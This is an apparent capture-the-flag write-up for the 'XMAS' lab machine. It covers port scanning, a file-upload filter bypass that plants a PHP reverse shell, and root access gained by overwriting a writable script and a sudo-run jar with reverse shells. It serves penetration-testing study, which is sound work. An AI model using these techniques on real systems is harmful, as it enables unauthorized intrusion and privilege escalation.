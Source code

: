 ```yaml
---
title: XMAS-Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.63    08:00:27:b1:ae:10       PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a6:3e:0b:65:85:2c:0c:5e:47:14:a9:dd:aa:d4:8c:60 (ECDSA)
|_  256 99:72:b5:6e:1a:9e:70:b3:24:e0:59:98:a4:f9:d1:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.55
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-title: Did not follow redirect to http://christmas.hmv
MAC Address: 08:00:27:B1:AE:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  

TRACEROUTE

HOP RTT     ADDRESS

1   0.93 ms xmas (192.168.1.63)
```

## Add hosts

```shell
echo "192.168.1.63 christmas.hmv" >> /etc/hosts
```

## File upload

We can see there is a upload function which we can possibly use.

![](/assets/img/XMAS/Upload_Function.png)
As we can see, we can only upload pdf files.

With uploading "php-reverse-shell.pdf" first, we can then use burp to intercept the request and change it into "php-reverse-shell.php". 

![](/assets/img/XMAS/Burp_upload.png)

```shell
nc -lnvp 4444
```

## Privilege Escalation 

By using "linpeas.sh", we can discover some interesting files.


![](/assets/img/XMAS/Linpeas_result.png)

```shell
drwxr-xr-x  2 root root 4096 Nov 20 18:39 NiceOrNaughty
-rwxrwxrw- 1 root root 2029 Nov 20 18:39 nice_or_naughty.py
```

As we see that we have the permission to write into the file "nice_or_naughty.py".
Hence we will do is to create a python reverse shell.

```shell
nc -lnvp 1234
```

Then we are able to login in to user alabaster

## Privilege Escalation 

```shell
alabaster@xmas:~/PublishList$ sudo -l
sudo -l
Matching Defaults entries for alabaster on xmas:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User alabaster may run the following commands on xmas:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/java -jar
        /home/alabaster/PublishList/PublishList.jar
```


```shell
alabaster@xmas:~/PublishList$cat PublishList.java
cat PublishList.java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;

public class PublishList {

    public static void main(String[] args) {

        String sourceFile1 = "/home/alabaster/nice_list.txt";
        String sourceFile2 = "/home/alabaster/naughty_list.txt";
        String destinationFolder = "/home/santa/";

        try {
            copyFile(sourceFile1, destinationFolder);
            copyFile(sourceFile2, destinationFolder);
            System.out.println("Files copied successfully!");
        } catch (IOException e) {
            System.out.println("Failed to copy files!");
            e.printStackTrace();
        }
    }

    private static void copyFile(String sourceFile, String destinationFolder) throws IOException {
        int bytesRead;
        FileInputStream in = new FileInputStream(sourceFile);
        FileOutputStream out = new FileOutputStream(destinationFolder + new File(sourceFile).getName());

        byte[] buffer = new byte[4096];
        while ((bytesRead = in.read(buffer)) != -1) {
            out.write(buffer, 0, bytesRead);
        }

        in.close();
        out.close();
    }
}
```

We did not see any things that we can use for privilege escalations.

```shell
-rw-rw-r-- 1 alabaster alabaster 7504 Mar 23 05:31 PublishList.jar
```

But we see that we have to permission to write into the file.

Therefore, we will do is to generate a jar reverse shell via msfvenom and transfer it to the server

```shell
mv shell.jar /home/alabaster/PublishList/PublishList.jar
```

```shell
sudo java -jar /home/alabaster/PublishList/PublishList.jar
```

Then we are able to get root permission


